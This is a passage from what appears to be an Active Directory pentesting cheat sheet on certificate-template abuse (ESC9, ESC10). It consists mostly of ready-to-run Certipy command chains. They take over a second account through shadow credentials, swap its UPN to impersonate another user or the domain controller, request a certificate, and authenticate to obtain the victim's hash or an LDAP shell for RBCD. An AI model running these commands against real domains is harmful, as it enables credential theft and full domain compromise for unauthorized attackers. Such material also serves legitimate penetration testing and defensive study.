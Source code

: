 Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an RBCD.

#### Linux

**ESC9**

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to user3
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user3
#Request vulnerable certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate with the certif and obtain user3 hash during UnPac the hash
certipy auth -pfx 'user3.pfx' -domain 'contoso.local'
```

**ESC10 - Case 1**

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to user3
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user3
#Request authentication certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -ca 'ca_name' -template 'User'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate with the certif and obtain user3 hash during UnPac the hash
certipy auth -pfx 'user3.pfx' -domain 'contoso.local'
```

**ESC10 - Case 2**

Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@contoso.local**.

```bash
#Retrieve user2 creds via Shadow Credentials
certipy shadow auto -username 'user1@contoso.local' -p 'password' -account user2
#Change user2 UPN to DC$@contoso.local
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn 'DC$@contoso.local'
#Request authentication certif with user2
certipy req -username 'user2@contoso.local' -hash 'hash_value' -ca 'ca_name' -template 'User'
#user2 UPN change back
certipy account update -username 'user1@contoso.local' -p 'password' -user user2 -upn user2@contoso.local
#Authenticate through Schannel to realise a RBCD in a LDAP shell
certipy auth -pfx dc.pfx -dc-ip 'DC_IP' -ldap-shell
```
